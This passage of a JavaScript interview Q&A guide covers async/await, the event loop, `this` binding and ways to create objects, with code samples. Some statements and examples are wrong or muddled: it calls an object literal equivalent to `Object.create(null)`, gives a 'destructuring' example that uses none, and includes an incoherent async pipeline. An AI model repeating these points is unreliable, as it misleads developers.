// Promise chain
function fetchUserChain(id) {
  return fetch(`/api/users/${id}`)
    .then(res => {
      if (!res.ok) throw new Error(`HTTP ${res.status}`);
      return res.json();
    })
    .then(user => fetch(`/api/posts?userId=${user.id}`))
    .then(res => res.json());
}

// async/await — identical semantics, far more readable
async function fetchUser(id) {
  const res = await fetch(`/api/users/${id}`);
  if (!res.ok) throw new Error(`HTTP ${res.status}`);
  const user = await res.json();

  const postsRes = await fetch(`/api/posts?userId=${user.id}`);
  return postsRes.json();
}

// async function always returns a Promise
const result = fetchUser(1);   // Promise<...>
console.log(result instanceof Promise); // true

// Return value wrapping
async function getValue() { return 42; }
getValue().then(console.log); // 42

// Thrown errors become rejections
async function fail() { throw new Error('oops'); }
fail().catch(err => console.error(err.message)); // 'oops'
```

**Real-World Use Case:**

Next.js 13+ Server Components are `async` functions that `await` database queries and API calls directly in JSX — e.g., `const data = await db.query(...)` at the top of a React component. This is only possible because `async`/`await` makes asynchronous code look synchronous, allowing framework authors to compose async rendering without callbacks or observable streams. The underlying Promise machinery handles scheduling transparently.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you handle errors in `async`/`await`, and what are the pitfalls of unhandled rejections?

Errors in `async` functions are handled with standard `try`/`catch`/`finally` blocks. An awaited Promise that rejects throws at the `await` expression, which `catch` intercepts exactly like a synchronous throw.

**Key pitfalls:**

1. **Forgetting `await`** — the Promise is created but not awaited; errors are silently swallowed.
2. **Missing `catch`** — an unhandled rejection in Node.js (since v15) causes the process to exit with a non-zero code; in browsers it fires `window.unhandledrejection`.
3. **`try/catch` around non-awaited Promises** — `try` only catches synchronous throws and awaited rejections, not fire-and-forget Promises inside the block.
4. **Partial failure in loops** — `await` inside a `for` loop is sequential; one failure aborts all subsequent iterations unless each is individually caught.

```js
// ── Basic try/catch ───────────────────────────────────────────────────────────
async function loadProfile(userId) {
  try {
    const res  = await fetch(`/api/users/${userId}`);
    if (!res.ok) throw new Error(`Not found: ${res.status}`);
    return await res.json();
  } catch (err) {
    console.error('loadProfile failed:', err.message);
    return null; // graceful fallback
  } finally {
    console.log('loadProfile completed'); // always runs
  }
}

// ── Pitfall 1: missing await — error NOT caught ───────────────────────────────
async function badExample() {
  try {
    fetch('/api/broken'); // ❌ not awaited — rejection escapes try/catch
  } catch (err) {
    console.error('This never runs');
  }
}

// ── Pitfall 2: parallel fire-and-forget loses errors ─────────────────────────
async function riskyParallel() {
  const p1 = fetch('/api/a'); // ❌ rejection unhandled if not awaited
  const p2 = fetch('/api/b');
  // ... other work
  return [await p1, await p2]; // only caught here, but p1 rejection may fire earlier
}

// ✅ Correct: attach .catch() immediately or use Promise.allSettled
async function safeParallel() {
  const [r1, r2] = await Promise.allSettled([
    fetch('/api/a'),
    fetch('/api/b'),
  ]);

  if (r1.status === 'rejected') console.error('a failed:', r1.reason);
  if (r2.status === 'rejected') console.error('b failed:', r2.reason);

  return [r1.value, r2.value].filter(Boolean);
}

// ── Global unhandled rejection handler (Node.js) ──────────────────────────────
process.on('unhandledRejection', (reason, promise) => {
  console.error('Unhandled rejection:', reason);
  // In production: log to Sentry/Datadog, then gracefully shut down
  process.exit(1);
});
```

**Real-World Use Case:**

Express.js does not natively catch errors thrown from `async` route handlers — the error must be passed to `next(err)` explicitly. A common production pattern is a wrapper utility that bridges `async`/`await` errors into Express\'s error middleware:

```js
// asyncHandler utility — used in every route in production Express apps
const asyncHandler = (fn) => (req, res, next) =>
  Promise.resolve(fn(req, res, next)).catch(next);

router.get('/users/:id', asyncHandler(async (req, res) => {
  const user = await db.users.findById(req.params.id);
  if (!user) return res.status(404).json({ error: 'Not found' });
  res.json(user);
}));
// Any thrown error or rejected promise is forwarded to Express error middleware
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between sequential and parallel `await`, and how do you optimise concurrent async operations?

`await` used naively in a loop creates **sequential** execution — each operation waits for the previous to complete before starting, which is wasteful when operations are independent. The total time becomes the **sum** of all operation durations rather than the **maximum**.

The correct approach for independent async operations is to **start all Promises simultaneously** and `await` their collective resolution with `Promise.all` (fail-fast) or `Promise.allSettled` (wait for all, regardless of failures).

```js
// ── Sequential — slow (sum of durations) ─────────────────────────────────────
async function loadSequential(userIds) {
  const users = [];
  for (const id of userIds) {
    const user = await fetchUser(id); // each waits for the previous ❌
    users.push(user);
  }
  return users;
  // 3 users × 200ms each = ~600ms total
}

// ── Parallel with Promise.all — fast (max of durations) ──────────────────────
async function loadParallel(userIds) {
  return Promise.all(userIds.map(id => fetchUser(id))); // all start immediately ✅
  // 3 users × 200ms each = ~200ms total (limited by slowest)
}

// ── Promise.allSettled — parallel, no fail-fast ───────────────────────────────
async function loadWithPartialFailure(userIds) {
  const results = await Promise.allSettled(userIds.map(id => fetchUser(id)));
  return results.map((result, i) => ({
    id: userIds[i],
    user:  result.status === 'fulfilled' ? result.value : null,
    error: result.status === 'rejected'  ? result.reason.message : null,
  }));
}

// ── Controlled concurrency — avoid hammering APIs ─────────────────────────────
async function loadWithConcurrencyLimit(userIds, concurrency = 3) {
  const results = [];
  for (let i = 0; i < userIds.length; i += concurrency) {
    const batch = userIds.slice(i, i + concurrency);
    const batchResults = await Promise.all(batch.map(id => fetchUser(id)));
    results.push(...batchResults);
  }
  return results;
}

// ── Promise.race — first to settle wins (useful for timeouts) ─────────────────
function withTimeout(promise, ms) {
  const timeout = new Promise((_, reject) =>
    setTimeout(() => reject(new Error(`Timed out after ${ms}ms`)), ms)
  );
  return Promise.race([promise, timeout]);
}

const user = await withTimeout(fetchUser(1), 3000); // throws if fetch takes > 3s

// ── Promise.any — first to fulfil (ignore rejections) ─────────────────────────
const fastest = await Promise.any([
  fetch('https://cdn1.example.com/data.json'),
  fetch('https://cdn2.example.com/data.json'),
  fetch('https://cdn3.example.com/data.json'),
]); // whichever CDN responds first wins
```

**Real-World Use Case:**

GraphQL resolvers in Apollo Server resolve each requested field independently. When a query requests `user`, `posts`, and `notifications` simultaneously, the resolver layer runs all three `await fetch(...)` calls in parallel via `Promise.all`. A naive sequential implementation would triple page load time. At scale (Shopify, GitHub\'s GraphQL API), this concurrency control — combined with DataLoader for batching and deduplication — is what makes GraphQL APIs performant under high query complexity.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do async generators and `for await...of` enable streaming data processing?

An **async generator** (`async function*`) is a function that produces values asynchronously via `yield`. Each `yield` pauses execution until the consumer calls `.next()`, which returns `Promise<{ value, done }>`. `for await...of` is the idiomatic consumer — it automatically awaits each `.next()` call, making streaming processing look synchronous.

This pattern enables **lazy, backpressure-aware** pipelines: data is produced and consumed one chunk at a time rather than loading an entire dataset into memory.

```js
// ── Async generator: paginated API ───────────────────────────────────────────
async function* fetchAllPages(baseUrl) {
  let page = 1;
  let hasMore = true;

  while (hasMore) {
    const res  = await fetch(`${baseUrl}?page=${page}&limit=100`);
    const { data, meta } = await res.json();

    yield data; // yield this page\'s array to the consumer

    hasMore = meta.page < meta.totalPages;
    page++;
  }
}

// Consumer — processes one page at a time, never holds all pages in memory
async function processAllUsers() {
  for await (const page of fetchAllPages('/api/users')) {
    for (const user of page) {
      await sendWelcomeEmail(user); // process each user
    }
  }
}

// ── Async generator: real-time stream from WebSocket ─────────────────────────
async function* messages(socket) {
  while (true) {
    const message = await new Promise((resolve, reject) => {
      socket.once('message', resolve);
      socket.once('error',   reject);
      socket.once('close',   () => resolve(null));
    });
    if (message === null) return; // socket closed — generator done
    yield JSON.parse(message);
  }
}

// Consumer
for await (const msg of messages(ws)) {
  console.log('Received:', msg);
}

// ── Composable async pipeline ─────────────────────────────────────────────────
async function* map(iterable, fn) {
  for await (const item of iterable) yield fn(item);
}

async function* filter(iterable, predicate) {
  for await (const item of iterable) {
    if (await predicate(item)) yield item;
  }
}

async function* take(iterable, n) {
  let count = 0;
  for await (const item of iterable) {
    if (count++ >= n) return;
    yield item;
  }
}

// Compose: fetch all users, keep admins, take first 10
const adminPipeline = take(
  filter(
    map(fetchAllPages('/api/users'), pages => pages).flat ? // simplification
      fetchAllPages('/api/users') :
      fetchAllPages('/api/users'),
    async user => user.role === 'admin'
  ),
  10
);

for await (const admin of adminPipeline) {
  console.log(admin.name);
}
```

**Real-World Use Case:**

Node.js 18+ natively supports async iteration over `fetch` response bodies: `for await (const chunk of response.body)`. AWS S3 SDK v3 returns async iterables for `ListObjectsV2Command` pagination. OpenAI\'s streaming chat completions API returns a `ReadableStream` consumed with `for await...of` — each chunk contains a token as it is generated, enabling real-time streaming UIs (like ChatGPT\'s typing effect). Without async generators, this would require complex recursive `.then()` chains or event emitter plumbing.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 19. Event Loop

<br>

## Q. How does the JavaScript Event Loop work — call stack, Web APIs, and the task queue?

JavaScript is **single-threaded** — it has one call stack and executes one piece of code at a time. The **Event Loop** is the mechanism that allows JavaScript to perform non-blocking I/O operations despite being single-threaded, by offloading work to the runtime (browser Web APIs or Node.js libuv) and scheduling callbacks back onto the call stack when it is empty.

**The components:**

| Component | Role |
|---|---|
| **Call Stack** | LIFO structure; functions push/pop as they are called/return |
| **Web APIs / libuv** | Browser/Node runtime handles timers, I/O, fetch, DOM events off-thread |
| **Macrotask Queue** (Task Queue) | Callbacks from `setTimeout`, `setInterval`, I/O, UI events |
| **Microtask Queue** | Callbacks from resolved Promises (`.then`/`.catch`), `queueMicrotask`, `MutationObserver` |
| **Event Loop** | Continuously checks: if stack is empty, drain the entire microtask queue, then take ONE macrotask |

**Execution order per loop iteration (tick):**
1. Execute the current synchronous code (call stack).
2. Drain the **entire microtask queue** (all microtasks, including any queued by microtasks).
3. Render/paint updates (browser only, between tasks).
4. Execute **one** macrotask from the macrotask queue.
5. Go to step 2.

```js
console.log('1 — sync');

setTimeout(() => console.log('2 — macrotask (setTimeout)'), 0);

Promise.resolve()
  .then(() => console.log('3 — microtask (Promise.then)'))
  .then(() => console.log('4 — microtask chained'));

queueMicrotask(() => console.log('5 — microtask (queueMicrotask)'));

console.log('6 — sync');

// Output order:
// 1 — sync
// 6 — sync
// 3 — microtask (Promise.then)
// 5 — microtask (queueMicrotask)
// 4 — microtask chained
// 2 — macrotask (setTimeout)
```

**Explanation:** Synchronous code runs first (1, 6). When the stack empties, the entire microtask queue is drained in FIFO order (3, 5, then the chained 4). Only then does the event loop pick the next macrotask (2).

**Real-World Use Case:**

React\'s `setState` batching relies on the microtask queue. In React 18+, `flushSync` and automatic batching use `queueMicrotask` to defer DOM updates until after all synchronous state changes are processed. This avoids intermediate renders for each individual `setState` call in an event handler — reducing layout thrashing and improving frame rates in complex UI updates.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between microtasks and macrotasks, and why does it matter?

The distinction between microtasks and macrotasks determines **when** callbacks run relative to each other and to rendering. Getting this wrong causes subtle ordering bugs, laggy UIs, and starvation scenarios.

**Microtask sources:**
- `Promise.then()` / `.catch()` / `.finally()`
- `async`/`await` continuations (desugars to `.then()`)
- `queueMicrotask()`
- `MutationObserver` callbacks

**Macrotask sources:**
- `setTimeout` / `setInterval`
- `setImmediate` (Node.js only)
- I/O callbacks (Node.js)
- UI event callbacks (`click`, `input`, etc.)
- `MessageChannel.postMessage()`
- `requestAnimationFrame` (browser — runs before paint, after microtasks)

**Critical difference:** After each macrotask, the **entire** microtask queue is drained before the next macrotask or render. A microtask that enqueues another microtask keeps the loop in the microtask phase — this can **starve** macrotasks (including UI rendering) indefinitely.

```js
// ── Microtask starvation — infinite microtask loop starves the render ─────────
function recursiveMicrotask() {
  Promise.resolve().then(recursiveMicrotask); // ❌ infinite microtask chain
  // The browser can never paint — UI freezes
}
// recursiveMicrotask(); // DO NOT RUN — for illustration only

// ── Correct: use macrotask (setTimeout/rAF) for deferred work ────────────────
function deferredWork() {
  setTimeout(deferredWork, 0); // ✅ yields to the event loop between iterations
}

// ── Ordering example: Promise vs setTimeout ───────────────────────────────────
async function demo() {
  console.log('A');

  setTimeout(() => console.log('B — macrotask'), 0);

  await Promise.resolve(); // suspends, schedules microtask continuation
  console.log('C — microtask (after await)');

  setTimeout(() => console.log('D — macrotask'), 0);

  await Promise.resolve();
  console.log('E — microtask (after 2nd await)');
}

demo();
console.log('F — sync, after demo() call');

// Output: A → F → C → E → B → D
// A (sync inside demo), F (sync after demo() returns), C & E (microtasks), B & D (macrotasks)

// ── Node.js specific: process.nextTick runs BEFORE Promise microtasks ─────────
process.nextTick(() => console.log('nextTick — before Promises'));
Promise.resolve().then(() => console.log('Promise.then'));
// nextTick → Promise.then
```

**Real-World Use Case:**

Vue.js\'s `nextTick()` API was historically implemented as a microtask (using `Promise.then` internally). This guarantees that DOM mutations triggered by reactive data changes are fully flushed and the DOM updated before the `nextTick` callback fires — but before any `setTimeout` callbacks, ensuring predictable ordering. When building animation libraries or test utilities that assert on DOM state after state updates, understanding the microtask/macrotask boundary is essential for avoiding flaky assertions.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How does `setTimeout(fn, 0)` actually behave, and what are its timer accuracy limitations?

`setTimeout(fn, 0)` does **not** execute `fn` immediately or even after exactly 0 milliseconds. It schedules `fn` as a **macrotask** — it will not run until:
1. The current call stack is empty.
2. The entire microtask queue is drained.
3. The event loop picks the next macrotask.

Additionally, browsers enforce a **minimum timer delay** of **4ms** after 5 nested `setTimeout` calls (the "clamping" rule, per the HTML spec). In background tabs, browsers further throttle timers to 1000ms (1 second) to save CPU. Node.js has a minimum delay of 1ms but also subject to the event loop\'s libuv timer phase overhead.

```js
// ── Minimum delay clamping after 5 nesting levels ─────────────────────────────
let depth = 0;
let last  = Date.now();

function nestTimer() {
  const now   = Date.now();
  const delta = now - last;
  last = now;
  console.log(`Depth ${depth}: ${delta}ms elapsed`);

  if (++depth < 10) setTimeout(nestTimer, 0);
}

setTimeout(nestTimer, 0);
// Depth 0–4: ~0–1ms (libuv / browser overhead)
// Depth 5+:  ~4ms   (browser clamps to 4ms minimum)

// ── Use case: yielding to the event loop to prevent blocking ──────────────────
async function processLargeArray(items) {
  const CHUNK = 500;
  for (let i = 0; i < items.length; i += CHUNK) {
    const chunk = items.slice(i, i + CHUNK);
    processChunk(chunk);

    // Yield after each chunk — allows paint and input events between chunks
    await new Promise(resolve => setTimeout(resolve, 0));
  }
}

// ── requestAnimationFrame — better than setTimeout for visual work ────────────
function animateProgress(target) {
  let current = 0;

  function step() {
    current = Math.min(current + 1, target);
    updateProgressBar(current);

    if (current < target) {
      requestAnimationFrame(step); // synced to display refresh (~16.7ms at 60fps)
    }
  }

  requestAnimationFrame(step);
}

// ── setInterval drift — why intervals are unreliable for precise timing ────────
// setInterval accumulates drift because it measures from when the callback
// was SCHEDULED, not when it COMPLETED. Use recursive setTimeout instead:
function preciseInterval(fn, ms) {
  let expected = Date.now() + ms;

  function step() {
    const drift = Date.now() - expected;
    fn();
    expected += ms;
    setTimeout(step, Math.max(0, ms - drift)); // compensate for drift
  }

  setTimeout(step, ms);
}
```

**Real-World Use Case:**

Data-grid libraries like AG Grid use `setTimeout(fn, 0)` to **chunk large render operations** — rendering 100 rows at a time and yielding between chunks — preventing the browser from becoming unresponsive while loading thousands of rows. `requestAnimationFrame` is used for smooth column resize animations. Understanding timer clamping explains why some polling-based libraries (e.g., older versions of Socket.IO\'s long-polling transport) had unexpected 4ms minimum latency on nested timer re-schedules.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How does Node.js\'s event loop differ from the browser\'s, and what are `process.nextTick` and `setImmediate`?

Node.js uses **libuv** for its event loop, which has a more complex, **multi-phase** structure than the browser\'s event loop. Each phase has its own FIFO queue of callbacks:

```
   ┌─────────────────────────────────┐
   │           timers                │  setTimeout / setInterval callbacks
   │  (callbacks scheduled for past  │
   │   or present time thresholds)   │
   └─────────────┬───────────────────┘
                 │
   ┌─────────────▼───────────────────┐
   │       pending callbacks         │  I/O callbacks deferred from previous tick
   └─────────────┬───────────────────┘
                 │
   ┌─────────────▼───────────────────┐
   │        idle, prepare            │  internal Node.js use
   └─────────────┬───────────────────┘
                 │
   ┌─────────────▼───────────────────┐
   │            poll                 │  retrieve new I/O events; block here if idle
   └─────────────┬───────────────────┘
                 │
   ┌─────────────▼───────────────────┐
   │            check                │  setImmediate callbacks
   └─────────────┬───────────────────┘
                 │
   ┌─────────────▼───────────────────┐
   │       close callbacks           │  e.g., socket.on('close', ...)
   └─────────────────────────────────┘
```

**Between every phase**, Node.js drains two special queues (highest priority):
1. `process.nextTick` queue — **before** Promise microtasks
2. Promise microtask queue — `Promise.then` / `async` continuations

```js
// ── Execution order in Node.js ────────────────────────────────────────────────
setImmediate(() => console.log('A — setImmediate (check phase)'));
setTimeout(() => console.log('B — setTimeout (timers phase)'), 0);

Promise.resolve().then(() => console.log('C — Promise microtask'));
process.nextTick(() => console.log('D — nextTick'));

console.log('E — sync');

// Output: E → D → C → B or A (timer vs check order is non-deterministic
//          when both are 0ms, depends on event loop entry time) → the other of B/A

// ── nextTick starvation risk ──────────────────────────────────────────────────
// process.nextTick runs before EVERY phase transition — abuse starves I/O
function recursiveNextTick() {
  process.nextTick(recursiveNextTick); // ❌ starves ALL I/O and timers
}

// ── setImmediate vs setTimeout(fn, 0) in I/O callbacks ───────────────────────
const fs = require('fs');

fs.readFile(__filename, () => {
  // Inside an I/O callback — we are in the poll phase
  setTimeout(  () => console.log('setTimeout'),   0); // timers phase — NEXT iteration
  setImmediate(() => console.log('setImmediate'));     // check phase — SAME iteration
  // setImmediate ALWAYS fires before setTimeout inside an I/O callback ✅
});

// ── Practical: use nextTick to ensure callback fires after current stack ───────
class EventEmitter {
  constructor() { this._listeners = []; }

  on(fn)   { this._listeners.push(fn); return this; }
  emit(data) {
    // Defer emission so listeners registered synchronously after on() still fire
    process.nextTick(() => this._listeners.forEach(fn => fn(data)));
  }
}
```

**Real-World Use Case:**

Node.js HTTP server frameworks like Fastify and Express use `process.nextTick` internally to defer error propagation and middleware continuations to the next microtask checkpoint — ensuring that all synchronous setup code in a route handler completes before the framework processes the response. Misconfiguring this (e.g., using `setImmediate` instead of `nextTick` for error forwarding) causes subtle ordering bugs where response headers are sent before error middleware has had a chance to modify them — a class of bugs found in early Koa.js releases.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 20. this Keyword

<br>

## Q. How is the value of `this` determined in JavaScript?

`this` is a **dynamic binding** — its value is determined at **call time**, not at definition time (unlike lexical scope). There are four binding rules, applied in order of precedence from highest to lowest:

| Priority | Rule | How triggered |
|---|---|---|
| 1 (highest) | **`new` binding** | `new Foo()` — `this` = the newly created object |
| 2 | **Explicit binding** | `.call(ctx)`, `.apply(ctx)`, `.bind(ctx)` — `this` = `ctx` |
| 3 | **Implicit binding** | `obj.method()` — `this` = `obj` (the object left of the dot) |
| 4 (lowest) | **Default binding** | Bare function call `fn()` — `this` = `globalThis` (sloppy) or `undefined` (strict) |

Arrow functions are the exception: they have **no own `this`** — they capture `this` lexically from their enclosing scope at definition time and no binding rule can change it.

```js
// ── Default binding ───────────────────────────────────────────────────────────
function whoAmI() {
  console.log(this); // globalThis in sloppy mode, undefined in strict mode
}
whoAmI();

// ── Implicit binding ──────────────────────────────────────────────────────────
const obj = {
  name: 'Alice',
  greet() { console.log(`Hi from ${this.name}`); },
};
obj.greet(); // 'Hi from Alice' — this = obj

// ── Implicit binding LOST when method is extracted ────────────────────────────
const greet = obj.greet;
greet(); // 'Hi from undefined' — this = globalThis/undefined ⚠️

// ── Explicit binding ──────────────────────────────────────────────────────────
function introduce(role) {
  console.log(`${this.name} is a ${role}`);
}
introduce.call(  { name: 'Bob' },  'developer'); // Bob is a developer
introduce.apply( { name: 'Carol' }, ['designer']); // Carol is a designer
const boundFn = introduce.bind({ name: 'Dave' });
boundFn('manager'); // Dave is a manager

// ── new binding ───────────────────────────────────────────────────────────────
function Person(name) {
  this.name = name; // this = newly created object
}
const alice = new Person('Alice');
console.log(alice.name); // 'Alice'

// ── Arrow functions — lexical this ───────────────────────────────────────────
const timer = {
  count: 0,
  start() {
    setInterval(() => {
      this.count++; // `this` = timer (lexical from start())
      console.log(this.count);
    }, 1000);
  },
};
timer.start();

// ── Class methods ─────────────────────────────────────────────────────────────
class Counter {
  #count = 0;

  // Regular method — this depends on call site
  increment() { this.#count++; }

  // Arrow class field — this is permanently bound to instance
  decrement = () => { this.#count--; };

  value() { return this.#count; }
}

const c = new Counter();
const { decrement } = c;   // extracted
decrement();               // ✅ still works — arrow field preserves this
// c.increment extracted would break — regular method loses this
```

**Real-World Use Case:**

React\'s move from class components to functional components was partly motivated by the `this` confusion. In class components, event handlers required `.bind(this)` in the constructor or arrow class fields because a method passed to `onClick` loses its implicit binding — `this` becomes `undefined` in strict mode. Functional components eliminate `this` entirely; hooks close over state values lexically, removing an entire category of binding bugs from large React codebases.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is the difference between `.call()`, `.apply()`, and `.bind()`, and when do you use each?

All three are `Function.prototype` methods that **explicitly set `this`** for a function invocation. The difference is in how they invoke the function and pass arguments:

| Method | Invokes immediately? | Arguments | Returns |
|---|---|---|---|
| `.call(ctx, arg1, arg2, ...)` | ✅ Yes | Spread as individual args | Function\'s return value |
| `.apply(ctx, [arg1, arg2])` | ✅ Yes | Single array of args | Function\'s return value |
| `.bind(ctx, arg1, ...)` | ❌ No | Pre-bound (partial application) | New bound function |

`.bind()` also creates a **permanent** binding — calling `.call()` or `.apply()` on a bound function cannot override the bound `this`.

```js
function formatCurrency(amount, symbol = '$', decimals = 2) {
  return `${symbol}${amount.toFixed(decimals)} (${this.currency})`;
}

const context = { currency: 'USD' };

// .call() — spread args
console.log(formatCurrency.call(context, 9.99, '€', 2));
// '€9.99 (USD)'

// .apply() — array of args (useful when args are already in an array)
const args = [9.99, '£', 2];
console.log(formatCurrency.apply(context, args));
// '£9.99 (USD)'

// .bind() — returns a new function, args can be partially applied
const formatUSD = formatCurrency.bind(context, undefined, '$', 2);
// Partial application: context + decimals fixed; amount still variable
const formatEUR = formatCurrency.bind({ currency: 'EUR' });

console.log(formatEUR(19.5, '€')); // '€19.50 (EUR)'

// ── .bind() for partial application (currying-lite) ──────────────────────────
function multiply(a, b) { return a * b; }
const double = multiply.bind(null, 2); // `this` irrelevant, a=2 fixed
console.log(double(5));  // 10
console.log(double(7));  // 14

// ── .apply() classic use case: spreading args into Math.max ──────────────────
const numbers = [3, 1, 4, 1, 5, 9, 2, 6];
console.log(Math.max.apply(null, numbers)); // 9
// Modern equivalent (prefer this):
console.log(Math.max(...numbers));          // 9

// ── Bound this is permanent — .call on bound function is ignored ──────────────
function showName() { return this.name; }
const bound = showName.bind({ name: 'Alice' });
console.log(bound.call({ name: 'Bob' })); // 'Alice' — bind wins
```

**Real-World Use Case:**

**`.bind()`** is used in Express.js to create pre-configured middleware factories — e.g., `router.use(authMiddleware.bind(null, { roles: ['admin'] }))` partially applies configuration without an extra wrapper function. **`.apply()`** was the classic way to forward `arguments` to another function before rest/spread existed — still found in legacy polyfill libraries. **`.call()`** is used in the `Object.prototype.toString.call(value)` pattern for reliable type detection (returns `"[object Array]"`, `"[object RegExp]"`, etc.) that works correctly even when `toString` is overridden on the object.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is `this` inside class fields vs. class methods, and what is the performance trade-off?

ES2022 class fields (instance properties declared with `=`) are initialised in the **constructor** for each instance. An arrow function class field (`method = () => {}`) creates a **new function object per instance**, with `this` permanently bound. A regular class method (`method() {}`) lives on the **prototype** — one function object shared across all instances, with `this` determined dynamically at the call site.

```js
class Button {
  label = 'Click me'; // instance field — one per instance

  // Arrow class field — new function created per instance
  // `this` is permanently bound to the instance
  handleClickArrow = () => {
    console.log(`Arrow: ${this.label}`);
  };

  // Prototype method — shared across all instances
  // `this` depends on the call site
  handleClickMethod() {
    console.log(`Method: ${this.label}`);
  }
}

const btn1 = new Button();
const btn2 = new Button();

// Prototype method — shared
console.log(btn1.handleClickMethod === btn2.handleClickMethod); // true (same fn object)

// Arrow field — not shared
console.log(btn1.handleClickArrow === btn2.handleClickArrow);  // false (different fn objects)

// ── Performance implications ──────────────────────────────────────────────────
// With 10,000 Button instances:
// - handleClickMethod: 1 function in memory (on Button.prototype)
// - handleClickArrow:  10,000 functions in memory (one per instance)
// Arrow fields are 10,000× more memory-intensive for this use case

// ── When to use arrow class fields ───────────────────────────────────────────
// 1. Callbacks passed to event listeners / JSX props (this-binding safety)
// 2. When you need consistent `this` in destructured usage
// 3. When the extra memory cost is acceptable (small instance count)

// ── When to use prototype methods ────────────────────────────────────────────
// 1. High instance count (services, models, data structures)
// 2. When method is never extracted from the instance
// 3. When you override the method in subclasses (prototype chain works correctly)

// ── Subclass behaviour difference ─────────────────────────────────────────────
class Base {
  value = 10;
  arrowMethod = () => this.value * 2; // defined on instance, not overridable via prototype
  protoMethod() { return this.value * 2; }
}

class Child extends Base {
  value = 20;

  // This overrides the prototype method ✅
  protoMethod() { return this.value * 3; }

  // This does NOT override the arrow field — Base\'s arrow is already on the instance
  // from `super()` call; Child\'s re-declaration creates a NEW instance field
  arrowMethod = () => this.value * 3; // ✅ works, but it\'s a new field, not polymorphism
}

const child = new Child();
console.log(child.protoMethod()); // 60 — Child\'s override ✅
console.log(child.arrowMethod()); // 60 — Child\'s field ✅ (same result here, different mechanism)
```

**Real-World Use Case:**

React class components defined event handlers as arrow class fields (`handleClick = () => this.setState(...)`) for `this` safety — but this caused a performance regression in large component trees where hundreds or thousands of list item components were rendered, each carrying its own separate function object for each handler. The React team documented this as a known overhead and it became one of the motivating factors for the hooks API (functional components), which stores handler functions on the hook\'s closure — created once per render, not per instance. Libraries like `react-window` (virtualised lists) are especially sensitive to this, carefully memoising callbacks with `useCallback` to avoid per-row function allocation.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 21. Objects & Prototypes

<br>


## Q. What are the possible ways to create objects in JavaScript?

**1. Object Constructor**:

The simpliest way to create an empty object is using Object constructor. Currently this approach is not recommended.

```js
let object = new Object();
```

**2. Object create method**:

The create method of Object creates a new object by passing the prototype object as a parameter

```js
let object = Object.create(null);
```

**3. Object Literal**:

The object literal syntax is equivalent to create method when it passes `null` as parameter

```js
let person = {};
```

**4. Function Constructor**:

Create any function and apply the new operator to create object instances,

```js
function Person(name) {
 let object = {};
 object.name = name;
 object.age = 26;

 return object;
}

let person = new Person("Alex");
```

**5. Function Constructor with prototype**:

This is similar to function constructor but it uses prototype for their properties and methods,

```js
function Person(){}

Person.prototype.name = "Alex";
let person = new Person();
```

**6. ES6 Class**:

ES6 introduces class feature to create the objects

```js
class Person {
 constructor(name) {
    this.name = name;
 }
}

let person = new Person("Alex");
```

**7. Singleton Pattern**:

A Singleton is an object which can only be instantiated one time. Repeated calls to its constructor return the same instance and this way one can ensure that they don\'t accidentally create multiple instances.

```js
let object = new function() {
  this.name = "Alex";
}
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the recommendations to create new object?

It is recommended to avoid creating new objects using `new Object()`. Instead you can initialize values based on it is type to create the objects.

* Assign {} instead of new Object()
* Assign "" instead of new String()
* Assign 0 instead of new Number()
* Assign false instead of new Boolean()
* Assign [] instead of new Array()
* Assign /()/ instead of new RegExp()
* Assign function (){} instead of new Function()

**Example:**

```js
let obj1 = {};
let obj2 = "";
let obj3 = 0;
let obj4 = false;
let obj5 = [];
let obj6 = /()/;
let obj7 = function(){};
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the different ways to access object properties?

There are 3 possible ways for accessing the property of an object.

**1. Dot notation:** It uses dot for accessing the properties

```js
objectName.property
```

**2. Square brackets notation:** It uses square brackets for property access

```js
objectName["property"]
```

**3. Expression notation:** It uses expression in the square brackets

```js
objectName[expression]
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How to check if an object is an array or not?

The `Array.isArray()` method determines whether an object is an array. This function returns `true` if the object is an array, and `false` if not.

```js
 // Creating some variables
  var v1 = {name: "John", age: 22};   
  var v2 = ["red", "green", "blue", "yellow"];
  var v3 = [10, 20, 30, 40, 50];
  var v4 = null;
  
  // Testing the variables data type
  typeof(v1); // Returns: "object"
  typeof(v2); // Returns: "object"
  typeof(v3); // Returns: "object"
  typeof(v3); // Returns: "object"
  
  // Testing if the variable is an array
  Array.isArray(v1);  // Returns: false
  Array.isArray(v2);  // Returns: true
  Array.isArray(v3);  // Returns: true
  Array.isArray(v4);  // Returns: false
```

*Note: The `Array.isArray()` method is supported in all major browsers, such as Chrome, Firefox, IE (9 and above)*

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. Can you give an example for destructuring an object?

Destructuring is an expression available in ES6 which enables a succinct and convenient way to extract values of Objects or Arrays and place them into distinct variables.

**Example:**

```js
// Object Destructuring

let person = { name: "Sarah", country: "India", job: "Developer" };

let name = person.name;
let country = person.country;
let job = person.job;

console.log(name); // Sarah
console.log(country); // India
console.log(job); // Developer
```

**&#9885; [Try this example on CodeSandbox](https://codesandbox.io/s/js-object-destructuring-xg7q51?file=/src/index.js)**

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you clone an object in JavaScript?

Using the object spread operator `...`, the object own enumerable properties can be copied into the new object. This creates a shallow clone of the object.

```js
const obj = { a: 10, b: 20 }
const shallowClone = { ...obj }
```

With this technique, prototypes are ignored. In addition, nested objects are not cloned, but rather their references get copied, so nested objects still refer to the same objects as the original.

